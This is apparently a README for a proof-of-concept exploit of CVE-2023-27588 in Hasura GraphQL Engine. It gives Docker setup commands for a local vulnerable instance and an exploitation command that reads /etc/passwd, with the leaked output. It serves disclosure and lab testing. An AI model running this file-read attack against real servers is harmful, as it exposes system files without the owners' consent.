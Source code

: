 # Overview
This is a PoC to exploit the [CVE-2023-27588](https://github.com/hasura/graphql-engine/security/advisories/GHSA-c9rw-rw2f-mj4x).

# Set up Docker environment
Run the following commands:

```
cd CVE-2023-27588/
sudo docker compose up -d
```

Once done, you should be able to access Hasura located at: `http://127.0.0.1:8080`.

# Exploitation

```
$ python3 CVE-2023-27588.py -u http://127.0.0.1:8080 -f /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[...SNIPPET...]
games:x:5:60:games:/usr/games:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
hasura:x:1001:1001::/home/hasura:/bin/sh
```
